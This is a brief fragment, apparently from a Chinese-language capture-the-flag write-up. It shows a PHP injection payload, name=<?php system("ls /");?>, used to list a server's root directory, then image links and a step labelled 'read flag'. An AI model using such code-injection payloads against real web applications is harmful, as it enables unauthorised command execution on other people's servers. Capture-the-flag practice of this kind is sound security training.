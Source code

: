 查看目录

```
name=<?php system("ls /");?>
```

![image-20240125152146052](照片/image-20240125152146052.png)

读取flag
